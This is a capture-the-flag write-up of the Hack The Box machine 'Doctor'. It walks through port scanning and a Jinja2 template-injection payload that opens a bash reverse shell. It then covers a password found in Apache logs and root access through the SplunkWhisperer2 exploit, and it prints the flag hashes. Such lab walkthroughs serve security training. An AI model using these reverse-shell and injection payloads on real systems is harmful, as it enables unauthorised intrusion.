 ```yaml
---
layout: post
title: "Doctor "
lang: en
categories:
  - writeups
tags:
  - security
  - writeups
  - htb
  - eop
  - linux
  - ssti
  - splunk
  - python
  - jinja
date: 2021/02/15 20:47:00
thumbnail: /img/HackTheBox/doctor.png

toc: true
---
```

# Information



- **Name:** Doctor
- **Profile:** [www.hackthebox.eu](https://www.hackthebox.eu/home/machines/profile/278)
- **Difficulty:** Easy
- **OS:** Linux
- **Points:** 20

![Doctor](/img/HackTheBox/doctor.png)



## Overview

Install tools used in this WU on BlackArch Linux:

```
$ pacman -S nmap pwncat payloadsallthethings
```

## Network enumeration

Port and service scan with nmap:

```plaintext
# Nmap 7.91 scan initiated Sun Feb 14 19:31:04 2021 as: nmap -sSVC -p- -v -oA nmap_scan 10.10.10.209
Nmap scan report for 10.10.10.209
Host is up (0.056s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)
|   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)
|_  256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd
| http-methods:
|_  Supported Methods: GET HEAD OPTIONS
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Issuer: commonName=SplunkCommonCA/organizationName=Splunk/stateOrProvinceName=CA/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-06T15:57:27
| Not valid after:  2023-09-06T15:57:27
| MD5:   db23 4e5c 546d 8895 0f5f 8f42 5e90 6787
|_SHA-1: 7ec9 1bb7 343f f7f6 bdd7 d015 d720 6f6f 19e2 098b
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 14 19:33:51 2021 -- 1 IP address (1 host up) scanned in 166.52 seconds
```

## Web discovery

Browsing with the IP address we have nothing fancy but we can find a reference
to `doctors.htb`.

```plaintext
$ curl -s http://10.10.10.209/ | grep doctor
              <strong>info@doctors.htb</strong>
```

So lets' add it to `/etc/hosts`.

```plaintext
$ grep doctor /etc/hosts
10.10.10.209 doctors.htb
```

Now browsing http://doctors.htb/ we access an app called _Doctor Secure Messaging_.

We can register an account and login.

At http://doctors.htb/post/new there is a feature where we can post a message.

There is a HTML comment:

```html
<!--archive still under beta testing<a class="nav-item nav-link" href="/archive">Archive</a>-->
```

The source code of http://doctors.htb/archive is displaying the following XML
content:

```xml
    <?xml version="1.0" encoding="UTF-8" ?>
    <rss version="2.0">
    <channel>
    <title>Archive</title>
```

It looks like a RSS feed. If I create a post, an entry appears under the RSS
feed:

```xml
    <?xml version="1.0" encoding="UTF-8" ?>
    <rss version="2.0">
    <channel>
     <title>Archive</title>
     <item><title>Test title</title></item>

            </channel>
```

## Web exploitation: SSTI

We can try to inject a [SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
payload to see if it is executed and reflected.

As the box is not realistic and most challenge "developers" only know
python and never try another language so it's almost safe to assume the
web app is coded in python and the template engine will be Jinja2.

Let's try `{{ 7*7 }}`, on the RSS feed we can see `<item><title>49</title></item>`
so we know the payload is executed.

Let's directly try a simple RCE to get a reverse shell:

```python
{{config.__class__.__init__.__globals__['os'].popen('/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.169/9999 0>&1"').read()}}
```

After triggering the RSS feed I received the connection on my listener:

```plaintext
$ pwncat -l 9999 -vv
INFO: Listening on :::9999 (family 10/IPv6, TCP)
INFO: Listening on 0.0.0.0:9999 (family 2/IPv4, TCP)
INFO: Client connected from 10.10.10.209:50334 (family 2/IPv4, TCP)
bash: cannot set terminal process group (864): Inappropriate ioctl for device
bash: no job control in this shell
web@doctor:~$
```

## Privilege Escalation of Machine : from web to shaun

Interestingly the user we have is in the `adm` group, this means it can
read `/var/log/`.

```plaintext
web@doctor:~$ id
uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
```

Let's check users with a shell to know which user target next:

```plaintext
web@doctor:~$ grep bash /etc/passwd
root:x:0:0:root:/root:/bin/bash
web:x:1001:1001:,,,:/home/web:/bin/bash
shaun:x:1002:1002:shaun,,,:/home/shaun:/bin/bash
splunk:x:1003:1003:Splunk Server:/opt/splunkforwarder:/bin/bash
```

As we are in `adm` group I directly targeted `/var/log/`:

```plaintext
web@doctor:~$ grep -r password /var/logs
...
/var/log/apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
...
```

Warning: guessing involved here for 2 things:

1. the author thinks that it's common for passwords to be accidentally entered into the email field
2. find the this password is owned by `shaun`

```plaintext
web@doctor:~$ su shaun
Password: Guitar123

shaun@doctor:/home/web$ cd

shaun@doctor:~$ id
uid=1002(shaun) gid=1002(shaun) groups=1002(shaun)
```

## Privilege Escalation of Machine : from shaun to root

We have not used Splunk yet, it must be involved in next step.

A French pentester, _Clément Notin_, wrote an article entitled
[Splunk Universal Forwarder Hijacking 2: SplunkWhisperer2](https://clement.notin.org/blog/2019/02/25/Splunk-Universal-Forwarder-Hijacking-2-SplunkWhisperer2/)
and also made available an associated [exploit](https://github.com/cnotin/SplunkWhisperer2).

Let's check the prerequisites:

- Universal Forwarder Agents running (on port 8089)
- `splunkd` is running as root
- credentials, guessing again, shaun creds are re-used for the splunk agent (totally realistic)

```plaintext
$ ps -ef f | grep splunk
root        1141       1  0 21:19 ?        Sl     0:01 splunkd -p 8089 start
root        1143    1141  0 21:19 ?        Ss     0:00  \_ [splunkd pid=1141] splunkd -p 8089 start [process-runner]
```

Let's exploit the guesbox now:

```plaintext
$ git clone https://github.com/cnotin/SplunkWhisperer2
$ cd SplunkWhisperer2/PySplunkWhispherer2/
$ python PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.169 --username shaun --password Guitar123 --payload '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.169/8888 0>&1"'
```

Enjoy:

```plaintext
$ pwncat -l 8888 -vv
INFO: Listening on 0.0.0.0:8888 (family 2/IPv4, TCP)
INFO: Client connected from 10.10.10.209:35294 (family 2/IPv4, TCP)
bash: cannot set terminal process group (1143): Inappropriate ioctl for device
bash: no job control in this shell
root@doctor:/# id
uid=0(root) gid=0(root) groups=0(root)

root@doctor:/# cat /root/root.txt
2011c879032a897c9d4d517f7e448839

root@doctor:/# cat /home/shaun/user.txt
95cb0c0321ccb5c5cc4d617b2c4cb2bf
```
